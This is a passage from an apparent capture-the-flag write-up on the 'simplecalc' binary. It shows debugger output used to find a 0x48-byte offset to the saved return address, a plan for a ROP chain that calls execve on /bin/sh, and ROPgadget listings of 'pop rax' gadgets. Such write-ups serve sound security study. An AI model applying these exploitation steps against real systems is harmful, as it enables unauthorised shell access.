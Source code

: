 ```
     0x401542 <main+447>       mov    rdi, rax
     0x401545 <main+450>       call   0x4228d0 <memcpy>
 →   0x40154a <main+455>       mov    rax, QWORD PTR [rbp-0x10]
     0x40154e <main+459>       mov    rdi, rax
     0x401551 <main+462>       call   0x4156d0 <free>
     0x401556 <main+467>       mov    eax, 0x0
     0x40155b <main+472>       jmp    0x401588 <main+517>
     0x40155d <main+474>       mov    edi, 0x494402
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "simplecalc", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40154a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000000000040154a in main ()
gef➤  search-pattern 0x13290b34
[+] Searching '0x13290b34' in memory
[+] In '[heap]'(0x6c3000-0x6e9000), permission=rw-
  0x6c4a88 - 0x6c4a98  →   "\x34\x0b\x29\x13[...]"
  0x6c8be0 - 0x6c8bf0  →   "\x34\x0b\x29\x13[...]"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffb0c8 - 0x7fffffffb0d8  →   "\x34\x0b\x29\x13[...]"
  0x7fffffffde60 - 0x7fffffffde70  →   "\x34\x0b\x29\x13[...]"
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x40154a in main; saved rip = 0x0
 Arglist at 0x7fffffffdea0, args:
 Locals at 0x7fffffffdea0, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde60 = 0x48`, which will be `18` integers. Now for what to execute when we get the return address. Since the binary is statically linked and there is no PIE, we can just build a rop chain using the binary for gadgets and without an infoleak. The ROP Chain will essentially just make an execve syscall to `/bin/sh`. There are four registers that we need to control in order to make this syscall (checkout https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details):

```
rax:  0x3b              Specify execve syscall
rdi:  ptr to "/bin/sh"  Specify file to run
rsi:  0x0               Specify no arguments
rdx:  0x0               Specify no environment variables
```

To do this, we will need gadgets to control those four register. I typically like to go with gadgets like `pop rax; ret`, since it makes it simple. We will also need a gadget to write the string `/bin/sh` somewhere in memory that we know. Let's find our gadgets using ROPGadget (checkout https://github.com/JonathanSalwan/ROPgadget ):

```
$ python ROPgadget.py --binary simplecalc | grep "pop rax ; ret"
0x000000000044db32 : add al, ch ; pop rax ; ret
0x000000000040b032 : add al, ch ; pop rax ; retf 2
0x000000000040b02f : add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x000000000040b030 : add byte ptr [rax], al ; add al, ch ; pop rax ; retf 2
0x00000000004b0801 : in al, 0x4c ; pop rax ; retf
0x000000000040b02e : in al, dx ; add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x0000000000474855 : or dh, byte ptr [rcx] ; ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
0x000000000044db34 : pop rax ; ret
0x000000000045d707 : pop rax ; retf
0x000000000040b034 : pop rax ; retf 2
0x0000000000474857 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
```
